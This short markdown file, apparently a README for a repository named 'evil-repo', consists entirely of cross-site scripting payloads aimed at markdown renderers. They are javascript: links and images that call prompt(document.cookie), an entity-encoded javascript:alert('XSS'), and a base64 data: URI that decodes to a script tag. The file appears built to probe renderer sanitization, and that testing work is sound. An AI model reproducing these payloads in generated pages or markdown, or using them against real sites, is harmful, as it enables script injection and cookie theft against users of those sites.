 evil-repo
=========

[a](javascript:prompt(document.cookie))
![a](javascript:prompt(document.cookie))
<javascript:prompt(document.cookie)>
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
(data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

